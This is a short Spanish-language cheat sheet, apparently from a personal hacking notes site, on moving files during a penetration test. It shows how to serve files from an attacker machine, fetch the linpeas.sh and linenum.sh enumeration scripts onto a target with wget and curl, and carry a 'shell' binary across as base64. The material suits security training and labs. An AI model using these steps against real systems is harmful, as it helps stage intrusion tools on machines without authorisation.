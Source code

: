 ```yaml
---
{"dg-publish":true,"permalink":"/hacking/basico/transferencia-de-archivos/"}
---
```



---------------
#fileTransfer
 
-------

|                                                        |                                                                         |
| ------------------------------------------------------ | ----------------------------------------------------------------------- |
| **Transferencia de archivos**                          |                                                                         |
| `python3 -m http.server 8000`                          | Iniciar un servidor web local                                           |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transfiera un archivo al servidor remoto con (requiere acceso SSH)`scp` |
| `base64 shell -w 0`                                    | Convertir un archivo a `base64`                                         |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convertir un archivo de nuevo a su origen`base64`                       |
| `md5sum shell`                                         |                                                                         |